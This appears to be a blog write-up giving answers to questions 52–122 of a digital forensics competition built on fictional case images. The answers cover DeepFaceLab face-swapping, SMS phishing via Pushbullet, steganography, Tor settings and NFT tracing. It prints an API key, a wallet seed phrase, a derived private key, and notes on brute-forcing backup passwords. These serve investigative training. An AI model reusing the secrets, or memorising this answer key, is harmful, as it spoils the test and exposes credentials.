## *52.请参考陈大昆MacBook镜像文件回答以下题目:这MacBook的用户名称是什么？（名称包括所有英文字母、数字和符号，区分大小写，不需要空格）(1分)

怎么看都是`ben`这个用户，不知道为什么官方答案是`CHEN`

结果为`BEN`

## 53.请参考陈大昆MacBook镜像文件回答以下题目:这台MacBook中曾连接了多少个WIFI(WIFISSID)？(1分)

```
\BenChen_MacBookPro_2023-1\Library\Preferences\SystemConfiguration\com.apple.wifi.message-tracer.plist
```

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903119-1594050015.png)

结果为`3`

## *54.参考’陈大昆的计算机镜像’,在这个取证镜像文件中有多少用户配置文件具有浏览历史？(1分)

A.1

B.2

C.3

D.4

不明觉厉

## 55.请参考陈大昆MacBook镜像文件回答以下题目:请提供以下文件的内容：“f.rtf”、“a.rtf”、“f1.txt”和“a1.txt”。（填写文件内容所有英文字母、数字和符号，区分大小写，不需要空格）请按照以下格式回答:xxx_xxx_xxx_xxx例子:如(1)的内容是abc,(2)的内容是123,(3)的内容是DEF,(4)的内容是8.8请填写:abc_123_DEF_8.8(2分)

看历史命令，`f.rtf`和`a.rtf`，文件在`\BenChen_MacBookPro_2023-1\Users\ben\Documents\`下，但是文件名似乎对不上，答案对的上，需要解base64

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902977-1017903395.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902921-662204945.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902968-1883821058.png)

结果为`f.rtf_a.rtf_funnystuff_autogpt`

## 56.请参考陈大昆MacBook镜像文件回答以下题目:有两个加密的.dmg文件在取证镜像文件内。按照.dmg文件的创建时间先后，请填写下面的空白：文件名称包括扩展名(如adcd.dmg)第一个创建.dmg文件的名称是：_____，密码是：____第二个创建.dmg文件的名称是：_____，密码是：____请按照以下格式回答:xxx_xxx_xxx_xxx，例子:如(1)的内容是abc、(2)的内容是123、(3)的内容是DEF、(4)的内容是8.8，答案为：abc_123_DEF_8.8(2分)

加密命令，密码是终端输入的，不过根据文件名和上题，可以猜测密码分别是`funnystuff`和`autogpt`

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902961-1590463371.png)

解密测试成功

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902972-1154157609.png)

结果为`funnystuff.dmg_funnystuff_auto.dmg_autogpt`

## 57.请参考陈大昆MacBook镜像文件回答以下题目:有一个应用程序托管在.dmg文件中，该程序需要一个密钥才能启用，请填写以下空格：（文件名称包括所有英文字母、数字和符号，区分大小写，不需要空格）存有密钥的文件名称是：________密钥的值是：________请按照以下格式回答:xxx_xxx，例子:密钥文件名称是：abc.def，密钥的值是：123，答案为：abc.def_123(2分)

进入后能看到是`autogpt`，根据相关文档，密钥配置在`.env`中

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902976-1957950156.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902966-2029520369.png)

结果为`.env_sk-Px1cCE5XZsXWYXij0K3BT3BlbkFJ4jVGVQ7eUpOmewvth1ep`

## 58.参考’陈大昆MacBook镜像文件’,按照相关记录，该应用程序使用了哪个版本的引擎？(2分)

默认的

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902929-1939917707.png)

结果为`gpt-3.5-turbo`

## 59.参考’陈大昆MacBook镜像文件’,按照您的检验，以下哪个陈述（或多个陈述）在描述路径“~/Desktop/.Spotlight-V100/”下的文件是正确的?(3分)

A."coins1.jpg alias"是一个档案捷径(alias)

B."coins.jpg alias"和"coins1.jpgalias"都是符号链接(Symlink)文件

C."CryptoWallet-link1"是一个档案捷径(alias)

D."CryptoWallet-link1"和"CryptoWallet-link2"链接相同的文件

E."CryptoWallet-link2"是一个硬链接(HardLink)

`coins1.jpg alias`是快捷方式

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902964-1294457219.png)

`CryptoWallet-link1`和`CryptoWallet-link2`哈希都相同，查看历史命令

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902773-603795222.png)

结果为`ACD`

## 60.参考’潘志辉的计算机镜像’,在换脸软件的“源视频转图片”程序中，不支持下列哪一类文件?(1分)

A.data_src.flv

B.data_src.mpeg

C.data_scr.mp4

D.以上文件都可以支持

找到软件，查资料都可以

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902961-1025725403.png)

结果为`D`

## 61.参考’潘志辉的计算机镜像’,目标视频转换了多少张图片?(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902988-1528109655.png)

结果为`316`

## 62.参考’潘志辉的计算机镜像’,已换脸的图片储存在哪个路径?(1分)

结果为`\Users\DFRNC - C59204\Desktop\DeepFaceLab_NVIDIA_RTX3000_series\workspace\data_dst\merged`

## 63.参考’潘志辉的计算机镜像’,在这案件中，使用了哪个程序将图片换脸?(1分)

A.train AMP.bat

B.train SAEHD.bat

C.train Quick96.bat

D.train AMPSRC-SRC.bat

看跑的模型就知道了

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903003-1813276425.png)

结果为`B`

## 64.参考’潘志辉的计算机镜像’,实时换脸软件可使用多少个模型?(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902758-1905919225.png)

结果为`16`

## 65.参考’潘志辉的计算机镜像’,实时换脸软件用了哪一个模型?(1分)

结合时间来看，跑完会给个summary

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903053-581002664.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902974-1686357734.png)

结果为`4live_SAEHD_model.dfm`

## 66.参考’潘志辉的计算机镜像’,在这案件中，换脸软件训练了哪些模型?(答案不用副文件名,例如Jackie_Chan.dfm只需输入Jackie_Chan)(2分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902986-509094445.png)

结果为`DianPian_SAEHD_model`、`4live_SAEHD_model`

## 67.参考’潘志辉的计算机镜像’,4live_SAEHD_model训练了多少迭代次数?(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902961-916867079.png)

结果为`1253447`

## 68.参考’潘志辉的计算机镜像’,换脸软件输出的文件名是什么？(1分)

几个视频放一下，其实看到带mask就知道了

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902978-1073773658.png)

结果为`result.mp4`

## 69.参考’潘志辉的计算机镜像’,分析潘志辉计算机的镜像后，相信他曾使用不同的遥距控制软件控制3部设备。请选择他曾使用的遥距控制软件。提示1:软件1显示SamsungGalaxyS7的设备编号(DeviceID):1062919330&潘志辉的计算机设备编号:228758166,提示2:软件2显示LM-G710EAW5的ID:LM-G710EAW1f703895,提示3:软件2显示LG-D855的ID:LGE-LG-D855(2分)

A.teamviewer

B.rustdesk

C.totalcontrol

D.Pushbullet

看到装了rustdesk，到日志目录`\Users\DFRNC - C59204\AppData\Roaming\RustDesk\log`搜索

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903037-123094596.png)

teamviewer、pushbullet日志中找不到有关信息

找到totalcontrol日志`\Users\DFRNC - C59204\AppData\Roaming\Sigma-RT\Total Control\log`，搜索有记录

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902844-1338975754.png)

结果为`BC`

## 70.参考’潘志辉的计算机镜像’,按照Peter计算机.e01的文件，可推论潘志辉用哪一个软件作一站式管理所有涉及的电子设备(1分)

去除其他几个

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902999-647758049.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902993-1129345152.png)

结果为`Pushbullet`

## 71.参考’潘志辉的计算机与手机镜像’,按照潘志辉的计算机与手机镜像可推论潘志辉正进行以下哪种犯罪(1分)

发钓鱼短信？

结果为`钓鱼攻击(PhishingAttack)`

## 72.参考’潘志辉的计算机镜像’,按照Peter计算机.e01的文件，总共有多少个电子设备登入?提示:请用阿拉伯数目字作答(2分)

结合看看

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902993-1129345152.png)

具体就是`devices.json`

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903015-791934025.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903032-587646795.png)

结果为`7`

## 73.参考’潘志辉的计算机镜像’,按照Peter计算机.e01的文件，潘志辉只有一个电子邮件账户，哪一天是该账户第一次登入Pushbullet?提示:请用YYYY_MM_DD的格式作答。(2分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902822-2128975408.png)

结果为`2023_07_20`

## 74.参考’潘志辉的计算机镜像’,按照Peter计算机.e01的文件，潘志辉发送大量SMS信息的文件名是甚么?提示:需包括扩展名称如ABC_123.doc(2分)

两个文件一样的，不过答案说是第二个

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902999-647758049.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903070-970734682.png)

结果为`SMS_Pushbullet-2.xlsm`

## 75.参考’潘志辉的计算机镜像’回答以下题目按照Peter计算机.e01的文件，Pushbullet与"发送大量SMS信息的文件"应用了哪一个技术交换信息,提示:请用小写英文全名并以下例子格式答题。例子:graphic_user_interface(2分)

用的宏去操作，不是很理解题目的意思，写代码哪有不用api的，还是说的发短信调的接口

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903031-1441030118.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903017-1478306916.png)

结果为`application_programming_interface`

## 76.参考’潘志辉的计算机镜像’,按照Peter计算机.e01的文件，哪一个设备曾经在Pushbullet内向GalaxyS7发送“生财工具”的信息?(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902842-899786130.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903192-1117604743.png)

结果为`计算机C59204`

## 77.参考’潘志辉的计算机镜像’回答以下题目按照Peter计算机.e01的文件，开启VMware内ubuntu的密码是多少？提示1(Tips1):相关的Ubuntu文件在ProgramFiles(x86)\Vmware\VMPlayer；Ubuntu的路径为C:\ProgramFiles(x86)\Vmware\VmwarePlayer\UbuntuVM,提示2(Tips2):请以小写英文与附号作答,提示3(Tips):可考虑使用KaliLinux、网上平台与ubuntupassword.txt内所有的数据协助找出密码(2分)

一眼顶针，这就是xways

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902836-1024339201.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902995-1276085635.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902823-1065862451.png)

结果为`newpassword2`

## 78.参考’潘志辉的计算机镜像’,按照Peter计算机.e01的文件，潘志辉应用了哪一个技术把true-ubuntupassword.txt隐藏在ubuntupassword.txt中。(1分)

结果为`备用数据流(Alternatedatastream)`

## 79.参考’潘志辉的计算机镜像’,true-ubuntupassword.txt内有一组哈希值，该哈希值是下列哪一种?(2分)

长度32，选项里只能是md5

结果为`md5`

## 80.参考’潘志辉的计算机镜像’回答以下题目,按照Peter计算机.e01的文件，在UbuntuVM在内执行TorBrowser时，在命令提示字符(CommandPrompt)执行netstat指令输出网络数据，以下为部份内容，哪一个数据可以推论潘志辉曾经使用TorBrowser。(2分)

i:192.168.145.128:47312

ii:127.0.0.1:9150

iii:192.168.145.128:60994

iv:127.0.0.1:9151

搜索题，毕竟是an网浏览器

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902844-1696776119.png)

结果为`ii&iv`

## 81.参考’潘志辉的计算机镜像’回答以下题目按照Peter计算机.e01的档案，潘志辉想把TorBrowser的entry与exitnode修改为澳洲进入，美国离开，但以下A-D项的空白位置潘志辉不懂如何填上内容。(3分)

EntryNodes{A}StrictnodesB

ExitNodes{C}StrictnodesD

还是那个搜索

结果为


```powershell
EntryNodes{au}Strictnodes1
ExitNodes{us}Strictnodes1
```

## 82.参考’潘志辉的手机镜像HUAWEI P30 pro’,在潘志辉手机华为P30Pro的WhatsApp与华为NOVA5T的WhatsApp的对话中，曾被修改过的对话，请找出修改前的内容。提示:请用中文与小写字母作答(2分)

nova5一共收到这么几句话

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903053-1999237013.png)

数据库`message`表搜索关键词`換`

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903031-1204218349.png)

`message_ftsv2_content`再搜索，可以看到差别，依据id自增和发送日期

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903011-514251015.png)

发给nova5的时间最晚，所以原来是`再換busd`

## *83.参考’潘志辉的手机镜像HUAWEI NOVA 5T’,潘志辉的手机华为Nova5T中曾使用哪一个文件以一部激光雕刻机打印了一个QRcode，这个文件名称的扩展名是什么?(1分)

这里应该是这个bmp，至少打印的时候它还是bmp噻

数据库`/data/com.hingin.l1.hiprint/databases`的`PRINT_HISTORY`表

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903301-1306403866.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902974-302071832.png)

虽然它实际上是jpg。。

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902816-1351322175.png)

`PRINT_PARAMETERS`表中也有数据，不过`PRINT_HISTORY`里有个字段是打印耗时，显然后者更有说服力

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903014-1688677784.png)

至于答案居然是`1697018471188.jpeg`这张图，wtf！还有什么点？

结果为`bmp`

## 84.参考’陈好的手机镜像’,陈好手机的相片20230821_144459在安卓的其中一个数据库中，显示该相片可包含哪个主体?(多选)(1分)

A.食物(Food)

B.饮品(Drink)

C.拉面(Ramen)

D.桌子(Table)

要的其实是手机自己识别的主体，要翻数据库`/data/com.android.providers.media/databases/external.db`，实际上不是说图片内容在数据库

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903028-944121475.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903231-677899012.png)

结果为`AC`

## 85.参考’陈大昆的手机镜像’回答以下题,陈大昆的手机被一个itunebackup密码加密保护，这个密码是什么?提示:请用阿拉伯数字作答(1分)

passware暴力跑，密码一般是纯数字（通常和iPhone锁屏密码相同），这个爆破本身就非常耗时，另外passware在某轮爆破中，密码是随机读取的，而不是按顺序爆破，我运气差，跑了5w多个密码才给我跑`123456`。。。

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903236-1774285565.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903224-995724378.png)

结果为`123456`

## 86.参考’潘志辉的手机镜像HUAWEIP30pro’,潘志辉手机华为P30pro的WhatsApp社群”香港商品交易群组Hong Kong Trading”，是什么时候建立的(UTC+8)?(2分)

`chat`表

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903036-164389935.png)结果为`2023-02-22 14:16:50`

## 87.参考’潘志辉的手机镜像HUAWEIP30pro’,潘志辉手机华为P30Pro的WhatsApp的有多少个对话群组不包含对话讯息记录(系统自行发出的不作计算)?(2分)

先看一下有多少群组，根据chatid去看内容

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903232-2048110326.png)

通过分析，`message_type`的值为7表示系统消息，写个sql，剩下3个没有消息记录

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903025-998128093.png)

结果为`3`

## 88.参考李哲图的计算机镜像,在李哲图传送给Ben的电邮中有2个附加文件，文件的名称是?(1分)

还得是xways，thunderbird居然能自动分析！

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903069-1034285835.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903062-85031014.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903050-1224938321.png)

结果为`NewTarget.rar`、`use_this.png`

## 89.参考陈大昆的计算机镜像,在陈大昆电脑中，他收到李哲图的电邮，当中有一个加密的压缩文件，该文件的开启密码是?提示:请用全大写字母作答(2分)

邮件附件以base64编码储存，怎么转文件想必都知道

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903072-1678095269.png)

图片是这个，解析一下是`Playfair Cipher`，[一个工具箱](http://www.atoolbox.net/Tool.php?Id=912)梭了，拿到密码`FOOTBALL`，注意大小写，密码表和密文都是大写的

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903076-618223298.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224908163-553218944.png)

结果为`FOOTBALL`

## 90.参考陈大昆的计算机镜像回答以下题目,在陈大昆的电脑中，加密的压缩文件NewTarget.rar中有2个文件，一个是加密的Word文件，另一个是图片文件。已知ChiTo曾处理图片以隐藏一段文字，那段文字是?提示:请用英文与标点符号作答(2分)

万能的OneDrive备份，发现隐写工具

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903516-1738682086.png)

直接解密，没有密码。。。

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903524-396157095.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903537-2094011470.png)

其实可以注意到input，openstego是支持输入jpg的

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903116-215155032.png)

看个config吧

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903148-1677078058.png)

结果为`P@ssw0rd`

## 91.参考李哲图的计算机镜像,李哲图曾执行一个程序在"key.bmp"的图片文件中隐藏一段文字，請問他是用哪一个程序?(1分)

结果为`OpenStego`

## 92.参考陈大昆的计算机镜像回答以下题目,在陈大昆的电脑中，加密的压缩文件NewTarget.rar中有2个文件，一个是加密的Word文件，另一个是图片文件。已知图片的隐藏文字为加密的Word文件的Salt(为一个AES256加密)。在加密的Word文件中，李美玲的年龄为?(3分)

在powershell历史命令中可以看到用openssl进行加密

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903115-2038919142.png)

上面拿到了密码`P@ssw0rd`，解密即可

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903325-1108744420.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903125-744918358.png)

结果为`25`

## 93.参考陈大昆的计算机镜像回答以下题目,在陈大昆的电脑中，加密的压缩文件NewTarget.rar中有2个文件，一个是加密的Word文件，另一个是图片文件。已知图片的隐藏文字为加密的Word文件的Salt(为一个AES256加密)。在加密的Word文件中，钟翠华的电邮为?(3分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903103-777864949.png)

结果为`TWchun111@gmail.com`

## 94.参考’benckwindow10.e01’,在Ben电脑中，他在Opensea.io中使用了哪些区块链制造NFT?(2分)

A.Ethereum

B.Polygon PoS Chain

C.Arbitrum

D.Base

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903149-514759731.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903132-1319886289.png)

结果为`AB`

## 95.参考’benckwindow10.e01’,在Ben电脑在Opensea.io中所创建的NFT(s)的CollectionID是？需以下例子的格式作答:CollectionID/NumberofNFT(s)sold，例:4561313456(2分)

附加资料

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903347-356869930.png)

结果为`4346577817`

## 96.参考’benckwindow10.e01’,这个Opensea.io中的CollectionID一共卖出了多少个NFT(s)?提示:请参阅附加资料(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903193-1889462703.png)

结果为`2`

## 97.参考’benckwindow10.e01’,购买上述在Opensea.io中NFT(s)的加密货币地址是?提示:请参阅附加资料與请用大写字母作答,例子:0X1234567ABCDEF(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903462-1513154697.png)

结果为`0xA2adc0bF0106d1247aF272C444cFe39264c57f25`

## 98.参考’benckwindow10.e01’,哪些是购买上述CollectionID内的NFT(s)的交易哈希(TransactionHash)?提示:请参阅附加资料(2分)

A.0x1c0ab817c6dcd48b065ba66affd5b9fa827a11fee9ae0fb865d3aecd60b7aae1

B.0xcbf3523d199efd2f61fdbc3d7debf706f8eb42c0dbe4a07d0d9472ab7e04c566

C.0xdc7f2e5362faf3b5ddc9ae0be83d3da7222b34f06e86862b9c0af1cc14e3c3e3

D.0xaaa011a6b6af54b11f97217d63dfa5f13aef160ebf672b1476de0460ef5b043f

要注意买方，两个NFT的交易方是同一个

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224908158-1944988488.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224908566-976648720.png)

结果为`AB`

## 99.参考’benckwindow10.e01’,在Opensea.io中铸造上述NFT(s)的加密货币地址是?提示:请参阅附加资料与请用大写字母作答,例子(example):0X1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZ0123(1分)

仿真进电脑可以看到metamask，试了密码是`P@ssw0rd`，地址复制出来就可以，当然这是瞎猫撞死耗子。。。

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224908731-1442921761.png)

由于交易的这两个NFT就是由这个地址铸造的，所以第一手就是铸造的地址

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903155-783992832.png)

结果为`0xeB3c02f1bf7a6E700950f39e4876762f8a44426f`

## 100.参考’benckwindow10.e01’,在Opensea.io中，由上述加密货币地址所铸造没有CollectionID的NFT找到什么资讯?提示:请参阅附加资料(1分)

A.Uniswap V3 BHB-WETH pool

B.0xa071e23fdbdfc23011a28977e102038747373575

C.Token ID:561068

D.以上皆是

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903197-1386345538.png)

结果为`D`

## 101.参考’benckwindow10.e01’,合约地址(ContractAddress):0xa071e23fdbdfc23011a28977e102038747373575所使用的是哪一个区块链?提示:请参阅附加资料(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903176-1482467721.png)

结果为`Ethereum`

## 102.参考’benckwindow10.e01’,合约地址(ContractAddress):0xa071e23fdbdfc23011a28977e102038747373575的加密货币名称(Name)及简写(Symbol)是?提示:请参阅附加资料(1分)

结果为`Binince(BHB)`

## 103.参考’benckwindow10.e01’,加密货币合约地址(ContractAddress):0xa071e23fdbdfc23011a28977e102038747373575在区块链的创建日期时间是?提示:请参阅附加资料(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224908815-85892871.png)

结果为`2023-09-06 16:58:11`

## 104.参考’benckwindow10.e01’,加密货币合约址(ContractAddress):0xa071e23fdbdfc23011a28977e102038747373575的总铸造数量是?提示:请参阅附加资料(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903179-1633173487.png)

结果为`300,000,000`

## 105.参考’benckwindow10.e01’回答以下题目,第一个储存加密货币合约(ContractAddress):0xa071e23fdbdfc23011a28977e102038747373575的地址是?提示:请参阅附加资料與请用大写字母作答,例子(example):0X1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZ0123(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903189-566617952.png)

结果为`0xeB3c02f1bf7a6E700950f39e4876762f8a44426f`

## 106.参考’benckwindow10.e01’回答以下题目,铸造加密货币合约地址(ContractAddress):0xa071e23fdbdfc23011a28977e102038747373575的交易哈希(TransactionHash)是?提示:请参阅附加资料與请用大写字母作答,例子(example):0X1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZ0123(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903284-879112263.png)

结果为`0x267c8e68e3a9769261c7da8257bb80d800af3d222fb98a63d3c19d5fab6eb84c`

## 107.参考’benckwindow10.e01’回答以下题目,承上題，请根据铸造加密货币合约地址(ContractAddress):0xa071e23fdbdfc23011a28977e102038747373575的交易哈希(TransactionHash)，在Ben电脑中，找出比在以太坊(Ethereum)上确认验证的日期时间早的文件名?提示:请参阅附加资料与请用大写字母作答(3分)

交易哈希的时间在上图，`16:58:11`，搜索

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903263-1994737421.png)结果为`9758501C07A1C4A010D029CA1862B8BD98C1E029`

## 108.参考’benckwindow10.e01’,承上題，按照在以太坊(Ethereum)上确认验证的日期时间的文件的创建日期时间、路径及数据，下列哪些推论是正确的?(2分)

A.Ben电脑内发现的交易哈希，比写上以太坊(Ethereum)被确认验证的交易哈希早出现

B.此档案与Firefox浏览器有关

C.此档案与Chrome浏览器有关

D.此档案是由陈大昆电脑的用户benck168创建的

见上图

结果为`ABD`

## 109.参考’benckwindow10.e01’回答以下题目,以下哪个去中心化交易中心(Dex)能够成功兑换加密货币合约地址(ContractAddress):0xa071e23fdbdfc23011a28977e102038747373575?提示:请参阅附加资料(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903200-1067808828.png)

结果为`Uniswap`

## 110.参考’benckwindow10.e01’,截至2023-09-07 1511时，加密货币合约地址(ContractAddress):0xa071e23fdbdfc23011a28977e102038747373575对美元(USD)的市场价格是?提示:请参阅附加资料(1分)

答案里没有。。。

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903212-577552299.png)

去网页自己查，得到结果

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903306-207226760.png)

结果为`0.01636`

## 111.参考’benckwindow10.e01’回答以下题目,截至2023-09-20，持有50,000,000个加密货币合约地址(ContractAddress):0xa071e23fdbdfc23011a28977e102038747373575的加密货币地址是?提示:请参阅附加资料與请用大写字母作答(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903270-634492780.png)

结果为`0x08b57d2531ac4cd18bc785b9deb688ffe61a4e8e`

## 112.参考’benckwindow10.e01’,按照时间线分析Ben电脑活动，在2023-09-06 16:58:10时及2023-09-06 16:58:21时，在”Access-Control-Allow-Origin”中显示了哪一个网站?(2分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903344-218707525.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903582-1057923859.png)

结果为`https://etherscan.io`

## 113.参考’benckwindow10.e01’,承上題，在2023-09-0616:58:10时及2023-09-0616:58:21时，在”Access-Control-Allow-Origin”中显示的网站有什么功能?(1分)

A.太坊区块链上的交易、地址、合约、代币等信息查询

B.太坊基金会的网站分析工具，用于跟踪和分析网站访问者的行为和活动

C.以太坊官方的在线IDE（集成开发环境），可用于编写、测试和部署智能合约

D.网上搜索引擎

应该是问不对的？？官方在线IDE是`Remix`

结果为`ABD`

## 114.参考’benckwindow10.e01’,哪一个扩展名与创建加密货币有关?(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903944-468338320.png)

结果为`sol`

## 115.参考’benckwindow10.e01’回答以下题目,陈大昆被捕后拒绝提供虚疑货币钱包密码及恢复种子，并以挑战口吻响应：「重要信息已经放好在桌面上，难道你没看见吗?」。在Ben电脑内与恢复种子有关的两个文件的扩展名是?(3分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224904298-2104246733.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224904331-1204254593.png)

结果为`jpeg`、`txt`

## 116.参考’benckwindow10.e01’,承上題，在陈大昆电脑内恢复种子的第八个英文单字是?提示:请用大写字母作答(3分)

图片中的文字恰好12个，跟恢复种子匹配，而字典文件中又有中文，因此就是对照着去找出恢复种子

找到的种子为


```plain
stable arrange expect popular train oak harsh grant quality mimic genre eternal
```

结果为`grant`

## 117.参考’benckwindow10.e01’回答以下题目,按照上述恢复种子,请计算出在以太坊(Ethereum)其BIP-44 derivation address=m/44’/60’/0’/0/0的公钥?提示:请用大写字母作答n例子:0X1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZ0123(3分)

在线网站https://iancoleman.io/bip39/

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224904453-970509206.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224904649-982130929.png)

结果为`0x02adbbc484e52e921b2678305c092fc794a97c7552ba86b5f3362b892c660e4cce`

## 118.参考’benckwindow10.e01’,按照上述恢复种子,请计算出在波场网络(Tron Network)其BIP-44 derivation address=m/44’/195’/0’/0/2的私钥?提示:请用大写字母与阿拉伯数字作答(3分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224904679-28536610.png)

结果为`4883c816b7154dd4c66a5674e98564febd17cac51dcb1ad349932177982fa2df`

## 119.参考’NAS-DISK1.e01,NAS-DISK2.e01,NAS-DISK3.e01’,案中所使用的NAS是哪个品牌?提示:请用小写字母作答(2分)

ufs加载镜像，自动重组raid

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224904749-2026929360.png)

看一眼hostname

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224904866-1869180712.png)

结果为`synology`

## 120.参考’NAS-DISK1.e01,NAS-DISK2.e01,NAS-DISK3.e01’,NAS所使用的是哪个容错式磁盘阵列的层级(RAIDLEVEL)?提示:请用阿拉伯数字作答(1分)

raid5

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224905006-1182586486.png)

结果为`5`

## 121.参考’NAS-DISK1.e01,NAS-DISK2.e01,NAS-DISK3.e01’,NAS所使用的容错式磁盘阵列是那种数据分布方式(Layout)?提示:请用小写字母作答，如:abc-def(2分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224905086-1904885091.png)

结果为`left-symmetric`

## 122.参考’NAS-DISK1.e01,NAS-DISK2.e01,NAS-DISK3.e01’,试列出NAS容错式磁盘阵列里面的所有逻辑巻名称(LogicalVolumeName)提示:请用小写英文以及在空格或标点符号位置用以_作答例子(example):abcd_efgh_123(3分)

